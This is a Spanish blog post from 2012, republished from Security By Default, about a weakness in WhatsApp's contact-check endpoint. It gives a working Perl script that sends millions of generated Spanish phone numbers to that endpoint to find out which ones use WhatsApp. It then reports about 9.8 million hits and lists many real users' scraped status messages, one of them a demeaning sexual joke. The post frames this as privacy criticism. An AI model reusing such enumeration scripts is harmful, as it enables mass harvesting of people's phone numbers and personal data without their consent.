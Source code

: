 ```yaml
---
id: 372
title: Casi 10 millones de móviles españoles con WhatsApp instalado
author: Adolfo Antón Bravo
layout: post
guid: http://blogs.cuartocanal.es/infotics/?p=372
permalink: /2012/03/06/casi-10-millones-de-moviles-espanoles-con-whatsapp-instalado/
dublin_core_author:
  - Enter author here
dublin_core_subject:
  - Enter comma separated keywords here
dublin_core_title:
  - Enter title here
dublin_core_description:
  - Enter description here
dublin_core_source:
  - Enter source here
dublin_core_coverage:
  - Enter coverage here
dublin_core_relation:
  - Enter relation here
dublin_core_publisher:
  - Enter publisher here
dublin_core_contributor:
  - Enter contributor here
dublin_core_rights:
  - Enter rights here
dublin_core_format:
  - Enter format here
dublin_core_language:
  - Language will appear here
oc_metadata:
  - "{		version:'1.1',		tags: {}	}"
oc_commit_id:
  - http://blogs.cuartocanal.es/infotics/2012/03/06/casi-10-millones-de-moviles-espanoles-con-whatsapp-instalado/1331044002
dsq_thread_id:
  - 604122280
categories:
  - privacidad
  - seguridad
  - social
  - softwarelibre
  - tecnología
tags:
  - Alejandro Ramos
  - Blade Runner
  - españa
  - google
  - Ibiza
---
```

Artículo de [Alejandro Ramos][1] publicado en [Security By Default][2], <cite>espacio donde poder compartir experiencias y hablar de los aspectos técnicos relacionados con la seguridad informática</cite>, con [licencia Creative Commons Reconocimiento-No Comercial España][3] el [2 de marzo de 2012][4].  
Hemos realizado ligeros cambios -cursivas, negritas, enlaces- en la edición en aras de una mejor comprensión del texto.  
No hemos cambiado el título aunque habría que añadir a <cite>Casi 10 millones de móviles españoles con WhatsApp instalado</cite>, constituyen un peligro para la privacidad de lxs usuarixs. Lo reproducimos porque nos parece muy importante que lxs usuarixs sepamos los problemas que tienen las aplicaciones que usamos, los riesgos que conlleva dejarse llevar por la moda de un uso masivo irreflexivo y sin ninguna postura crítica. Realmente WhatsApp hace algo que con [Jabber][5] ya se puede hacer, bien sea en un servidor comercial como de hecho hace Google con Ytalk, bien en un servidor cooperativo o comunitario como [Jabberes.org][6]. Sin embargo, la facilidad de uso, el boca-oreja y sobre todo la moda ha hecho de WhatsApp la aplicación instalada en diez millones de móviles de España. ¿Qué ocurre con la tecnología y el uso que hacemos de ella?  
<figure style="width: 531px;" class="wp-caption alignnone">[<img alt="Whatsapp, fondo de escritorio por http://www.flickr.com/photos/abulhussain/5017703003/sizes/o/in/photostream/" src="http://i1.wp.com/blogs.cuartocanal.es/infotics/files/2012/03/5017703003_75e1edf347_o.png?resize=531%2C278" title="Whatsapp, fondo de escritorio por http://www.flickr.com/photos/abulhussain/5017703003/sizes/o/in/photostream/" data-recalc-dims="1" />][7]<figcaption class="wp-caption-text">Whatsapp, fondo de escritorio por http://www.flickr.com/photos/abulhussain/5017703003/sizes/o/in/photostream/</figcaption></figure>

## Casi 10 millones de móviles españoles con WhatsApp instalado

¡Qué pesados somos con [whatsapp][8]! Ya, bueno, eso es mentira. Realmente somos pesados con todo. Haciendo algunos ejercicios con aplicaciones de [iPhone][9], me dio por mirar  un poco **WhatsApp**, como [ya hiciera Yago][10] o [Alberto antes][11], pero es que la aplicación da tanto juego, que se puede hablar de ella muchas más veces.  
Una de las cosas que observé en ese análisis es que cuando arranca, comprueba el estado de tus contactos y de esa forma, sabe qué personas de tu agenda usan el servicio. Esta petición se realiza mediante *HTTPS* contra su *servidor web* con una llamada muy simple a la *URL*: <https://sro.whatsapp.net/client/iphone/iq.php>, que devuelve un `plist` con sus mensajes y disponibilidad.  
`<br />
<dict><br />
<key>P</key><br />
<string>+34600000158</string><br />
<key>T</key><br />
<integer>6151511</integer><br />
<key>S</key><br />
<string>Hey there! I am using WhatsApp.</string><br />
<key>JID</key><br />
<string>34600000158</string><br />
<key>NP</key><br />
<true/><br />
</dict><br />
`  
El resto de esta entrada,  pues ya os lo podéis imaginar: *script* en *perl*, lista de teléfonos registrados de España y a probar y cotillear cuantos hay usando el servicio y qué estados graciosos hay. ¿Aburrido? No, ¡inquieto!  
La lista de prefijos de teléfono registrados es pública y se puede descargar en un fichero *zip* de esta página web: [http://www.cmt.es/cmt\_ptl\_ext/SelectOption.do?nav=bases&categoria=descarga][12]  
<a href="http://i0.wp.com/4.bp.blogspot.com/-YI0Z9dKpQJU/T1CtxLMa-cI/AAAAAAAAGwA/xS7F65JKwgs/s1600/cmt.png" data-rel="lightbox-0" title=""><img src="http://i1.wp.com/blogs.cuartocanal.es/infotics/files/2012/03/cmt.png?resize=320%2C165" alt="" border="0" data-recalc-dims="1" /></a>  
El *script* en *perl* no es que soporte *threads* ni sea nada del otro mundo, pero oye&#8230; funciona.  
`</p>
<p>#!/usr/bin/perl<br />
use LWP::UserAgent;<br />
my $ua = new LWP::UserAgent;<br />
open A,"num.txt";<br />
my @a=<A>;<br />
my $i=0;<br />
foreach my $b (@a){<br />
chomp $b;<br />
foreach $g (0..99) {<br />
$i++;<br />
my $post="";<br />
$post="cd=1&cc=34&me=600000000";<br />
foreach(0..9999) {<br />
$post .= sprintf ("&u%%5B%%5D=%%2B34$b%02d%04d",$g,$_);<br />
}<br />
print "get $in";<br />
my $req = new HTTP::Request 'POST','https://sro.whatsapp.net/client/iphone/iq.php';<br />
$req->content_type('application/x-www-form-urlencoded');<br />
$req->content("$post");<br />
my $res = $ua->request($req);<br />
print $res->as_string;<br />
}<br />
}<br />
`  
El resultado, cuando lo ejecuté el 10 de febrero y tras generar un *log* de 2 *Gb*: **9.832.654** de números registrados.

Y algunos estados de gente graciosos:

**HACKERS:**

<string>pirateando conversaciones, menuda hacker</string>  
<string>Xx\_Hackero\_xX</string>  
<string>The Mind Hackers is Here!!!</string>  
<string>HACKERMAN !!!</string>  
<string>I&#8217;m not a Hacker, I&#8217;m a &#34;Security Professional&#34;</string>  
<string>Hacker</string>  
<string>\*\\*\* Hacker. Hacker \*\**</string>  
<string>Hacker mater</string>  
<string>hacker</string>  
<string>Hacker î  
</string>  
<string>Heart Hacker Rembo Now Is Here</string>  
<string>Hacker</string>  
<string>Soy una hacker!!!!&#8230;patosa!!!î  
</string>  
<string>MaDr!D HaCKeR</string>  
<string>De Hacker por la Red</string>  
<string>Hacker</string>  
<string>The HACKER</string>  
<string>De examenes toda la semana.. Certified Ethical Hacker</string>  
<string>Don&#8217;t Panic! A &#8216;hacker&#8217; is different from a &#8216;cracker&#8217;.</string>  
<string>Te reviento hacker!! Jaja</string>  
<string>~Hacker~</string>  
<string>android hacker</string>  
<string>@andyyhacker</string>  
<string>Quien viene a ver Hackers?????</string>  
<string>Hacker, Blade Runner.</string>  
<string>ahhahah soy un porulo hacker :Pî  
½</string>  
<string>Hackerdelmelo is hacking OFM</string>  
<string>Saber romper medidas de seguridad no hacen k seas hacker al igual que saber hacer un puente en un coche no te convierte en un ingeniero</string>  
<string>Me sty volviendo hacker</string>  
<string>Xx\_putoshackers\_xX</string>  
<string>el puto hacker</string>  
<string>î®HACKERî®</string>  
<string>Y si, morire de frio o de sueÃ±o, quiero ser hacker u3u</string>  
<string>el hacker crea y el gobierno destruye</string>  
<string>VOTAD x ROLLING HACKERS!!!</string>  
<string>Los hackers son los padres</string>  
<string>CagÃ¼en el hacker&#8230;</string>  
<string>îMarzo Negro.contra la ley sopa.ANONYMUS planea el mayor atake hacker</string>  
<string>Certified Ethical Hacker</string>  
<string>Mi Objetivo: Hacker de la vida</string>

**SECURITY**

<string>I&#8217;m not a Hacker, I&#8217;m a &#34;Security Professional&#34;</string>  
<string>Ibiza Security</string>  
<string>Shadows Are Security</string>  
<string>Buguroo Offensive Security</string>  
<string>Gordo Te amo (L) bailar,bailar,bailar! Security dance! <img src="http://i1.wp.com/blogs.cuartocanal.es/infotics/wp-includes/images/smilies/simple-smile.png?w=660" alt=":)" class="wp-smiley" style="height: 1em; max-height: 1em;" data-recalc-dims="1" /> mucha fiesta y muchas actuaciones! :p</string>  
<string>the security men</string>  
<string>SecurityViolationException: empty head on &#8216;remote_user&#8217;:47</string>  
<string>Panda Security &#8211; cloudantivirus.com</string>  
<string>Ibiza Security</string>  
<string>Your Security is my Business&#8230;</string>  
<string>Paid off security and got through the gate&#8230;</string>  
<string>I&#8217;ll be ur security!!</string>  
<string>security!!!! ai ai ai ai</string>  
<string>security private î  
con dos cojones vamos a x elloî</string>  
<string>Grupo Security Dogs</string>  
<string>internet and security terrorims</string>

Y finalmente, uno de mis favoritos:

**<****string>Yo no digo que esa chica sea un poco suelta, solo digo que si su entrepierna tuviera contraseña, serí­a &#8216;1234&#8217;**<**/string****>**

 [1]: http://www.twitter.com/aramosf
 [2]: http://www.securitybydefault.com/
 [3]: http://creativecommons.org/licenses/by-nc/2.5/es/
 [4]: http://www.securitybydefault.com/2012/03/casi-10-millones-de-moviles-espanoles.html
 [5]: http://www.jabber.org/
 [6]: http://www.jabberes.org/
 [7]: http://www.flickr.com/photos/abulhussain/5017703003/sizes/o/in/photostream/
 [8]: http://www.whatsapp.com/
 [9]: http://store.apple.com/es/browse/home/shop_iphone/family/iphone
 [10]: http://www.securitybydefault.com/2011/06/lo-que-no-te-cuenta-whatsapp.html
 [11]: http://www.securitybydefault.com/2012/01/whatsapp-al-descubierto.html
 [12]: http://www.cmt.es/cmt_ptl_ext/SelectOption.do?nav=bases&categoria=descarga